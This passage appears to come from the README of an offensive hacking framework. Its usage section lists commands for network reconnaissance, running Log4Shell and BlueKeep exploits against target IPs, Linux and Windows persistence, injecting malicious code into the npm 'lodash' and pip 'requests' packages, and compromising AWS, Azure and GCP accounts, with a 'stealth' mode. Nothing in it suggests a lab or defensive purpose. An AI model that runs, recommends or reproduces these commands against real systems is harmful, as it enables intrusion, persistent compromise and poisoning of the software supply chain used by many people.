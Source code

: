 
3. **Generate SSL Certificates**
```bash
mkdir certs
openssl req -x509 -newkey rsa:4096 -keyout certs/bismillah.key -out certs/bismillah.crt -days 365 -nodes -subj "/C=US/ST=State/L=City/O=Organization/CN=bismillah.local"
```

## 🎯 Usage

### Basic Execution

```bash
# Run the main framework
python3 bismillah.py

# Run with specific threat level
python3 bismillah.py --threat-level aggressive

# Run in stealth mode
python3 bismillah.py --threat-level stealth
```

### Command Line Interface

```bash
# Reconnaissance
python3 hey_mama.py --scan 192.168.1.0/24
python3 hey_mama.py --shodan "apache country:US"
python3 hey_mama.py --dnsenum example.com

# Exploitation
python3 hey_mama.py --run_exploit cve_2021_44228_log4j 10.0.0.5
python3 hey_mama.py --can_run cve_2019_0708_bluekeep 192.168.1.50

# Persistence
python3 hey_mama.py --persist_linux /usr/local/bin/bismillah
python3 hey_mama.py --persist_win_schtask C:\Windows\System32\bismillah.bat

# Supply Chain
python3 hey_mama.py --npm_inject lodash /path/to/malicious.js
python3 hey_mama.py --pip_inject requests /path/to/malicious.py

# Cloud Compromise
python3 hey_mama.py --cloud_aws
python3 hey_mama.py --cloud_azure
python3 hey_mama.py --cloud_gcp
```

## 🔧 Configuration

Edit `config.json` to customize:
